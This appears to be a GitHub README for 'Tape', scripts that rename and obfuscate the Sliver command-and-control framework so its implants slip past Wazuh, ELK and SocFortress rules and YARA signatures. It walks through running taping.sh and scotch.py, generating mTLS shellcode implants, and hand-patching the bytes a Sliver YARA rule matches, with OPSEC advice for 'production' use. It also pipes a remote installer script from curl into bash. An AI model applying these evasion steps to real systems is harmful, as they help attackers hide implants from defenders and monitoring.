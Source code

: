 # Tape
Scotch-Tape usage for [Sliver](https://github.com/BishopFox/sliver) obfuscation  
This technique looks a bit like this ...
<p align="center">
  <img src="./image/jim-carrey-tape.gif" alt="jimmy-jim width="290" height="290" />
</p>  


## In Labs - GOAD with Wazuh Activated    
1. Yes, I know that just tweaking some settings in Havoc allows the demon.bin to be executed on GOAD (on Socfortress rules machines) without issues. But in this case, my goal was to achieve the same thing manually with [Sliver](https://github.com/BishopFox/sliver), which allowed me to learn much more about this C2.
And for Havoc, if you didn't know—now you know.    
2. In this case, we will bypass and obfuscate our payload with minimal effort. (If my calculations are correct: Socfortress—out, ELK multi sliver rules—out, Wazuh sliver YARA rules—out. I’m not considering Defender in my equation because some built-in bypasses in the implant can still be flagged, even in this case.)  

## Taping.sh  

### Prerequisite for GVM - only v1.5 version of sliver
```bash
bash < <(curl -s -S -L https://raw.githubusercontent.com/moovweb/gvm/master/binscripts/gvm-installer)
source . /root/.gvm/scripts/gvm
```

1. Clone [Sliver](https://github.com/BishopFox/sliver) repository and this repo [Tape](https://github.com/Oni-kuki/Tape)  
```taping.sh
git clone https://github.com/BishopFox/sliver.git
git clone https://github.com/Oni-kuki/Tape
```
* If you want the latest stable version of sliver (v1.5.43) go in sliver repo and make
```
git checkout v1.5.43
``` 
2. Go in [Tape](https://github.com/Oni-kuki/Tape) repo 
```taping.sh
cd Tape
``` 
3. Modify first variables on the [Taping.sh](https://github.com/Oni-kuki/Tape/blob/main/taping.sh) script (no space, no problematic special character)  
```taping.sh
var1=XXXXX #replacement of bishopfox
var2=XXXXX #replacement of sliver
var3=XXXXX #replacement of Sliver 
```
4. Execute [Taping.sh](https://github.com/Oni-kuki/Tape/blob/main/taping.sh)
```taping.sh
# in this example, but you can specify the folder where sliver is located depending on your clone 
sudo ./taping.sh version 1.5 ../sliver/
sudo ./taping.sh version 1.6 ../sliver/
```  

### Some explanation and OPSEC Recomendations
> [!NOTE]  
> Version 1.5 or 1.6 are reference to [Sliver](https://github.com/BishopFox/sliver) version
> 1.6 is still in development so use it with caution (do not use it in production).   
> I add some new features to make easier the external building, now with --ext argument we can build external-builder with 1.6 donut-loader wich are more OPSEC for implant and build the server with the 1.5 donut-loader wich are more OPSEC for the execute-assembly function.  
> So at the end we will have 3 binaries external-server (just for implant creation), client, and the server.  

```taping.sh
# in this example, but you can specify the folder where sliver is located depending on your clone
sudo ./taping.sh version 1.5 ../sliver/ --ext
sudo ./taping.sh version 1.6 ../sliver/ --ext
```

#### Why did I make this ? 
Because the Donut loader in version 1.6 doesn't allow the execute-assembly method to work correctly.
I tested a lot of things to understand why, and I isolated the fact that the loader cannot retrieve the output. This might be linked to the AMSI patch (the bypasses are applied in two ways: one for Donut itself, (for implant) and the other in the loader for execute-assembly). However, I haven't delved too deeply into the subject yet.  

Regardless, version 1.6 is quieter for the implant, while version 1.5 works better for execute-assembly. In any case, version 1.5 is more stable and production-ready.  

> [!CAUTION]  
> This takes a while, so be patient  
> I highly recommend reading the script, because it's necessary to make some modification on it, in link with your fork  

## Scotch.py  
This script can be used independently of this repo, (if you have read the [Taping.sh](https://github.com/Oni-kuki/Tape/blob/main/taping.sh) you'll notice some redundancy in the obfuscation techniques.)  

```
python3 scotch.py FILE
```

> [!CAUTION] 
> Depending on your listener, not every obfuscation technique can be applied. By default, the obfuscation is set for an mTLS listener.   
> So again Read the script

```sliver
mtls -L HOST_IP -l port -p
generate -m HOST_IP:PORT -G --skip-symbols -f shellcode -s ./FOLDER/TO/SAVE
```
## Last but not Least  
I don't have automated one particular obfuscation (wireguard strings because it's still a bit tricky)  
You can make it manually with ghidra for the moment, I will automated in a few days.  
the hex to change is based on this rule part :
```
$p1 = {66 81 ?? 77 67}
```
Use the yara rule to identify correctly the Hex part; it's more precise.  